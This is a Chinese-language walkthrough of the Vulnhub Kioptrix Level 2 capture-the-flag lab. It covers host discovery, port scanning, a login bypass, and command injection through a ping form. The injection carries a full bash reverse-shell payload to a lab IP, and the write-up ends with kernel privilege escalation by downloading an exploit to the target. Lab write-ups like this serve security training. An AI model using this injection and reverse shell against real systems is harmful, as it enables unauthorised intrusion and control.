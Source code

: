 ```yaml
---
title: Vulnhub-Kioptrix_Level2
date: 2025-2-24 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

### 主机发现

```
netdiscover -i eht0 -r 192.168.137.0/24
```

![image-20250319153745788](./Kioptrix%20Level2/image-20250319153745788.png)

### 端口扫描

![image-20250319165136560](./Kioptrix%20Level2/image-20250319165136560.png)

将端口分离

```
ports=$(cat nmap-ports.nmap | grep open | awk -F/ '{print $1}' | tr '\n' ',')
```

## 80 端口

尝试万能密码，登录成功

![image-20250319170626895](./Kioptrix%20Level2/image-20250319170626895.png)

![image-20250319171308645](./Kioptrix%20Level2/image-20250319171308645.png)

缺少了输入框，查看源码是多了一个单引号，bp 抓包拦截返回包，然后修改源码就可以正常显示

![image-20250319171416770](./Kioptrix%20Level2/image-20250319171416770.png)

功能是一个 ping 功能

![image-20250319171457384](./Kioptrix%20Level2/image-20250319171457384.png)

可以尝试在 ip 后面跟上命令 "；" 的作用是顺序执行；

![image-20250319171556375](./Kioptrix%20Level2/image-20250319171556375.png)

可以成功执行，直接在后面进行反弹 shell 即可

```
127.0.0.1;bash -c 'exec bash -i &>/dev/tcp/192.168.137.129/9991 <&1'
```

成功反弹 shell

## 提权

![image-20250319175201492](./Kioptrix%20Level2/image-20250319175201492.png)

查看内核，寻找内核提权漏洞

![image-20250319175306220](./Kioptrix%20Level2/image-20250319175306220.png)

下载到本地，本地开启 web 服务，靶机连接本机的 web 服务下载 exp

![image-20250319175440036](./Kioptrix%20Level2/image-20250319175440036.png)

成功提权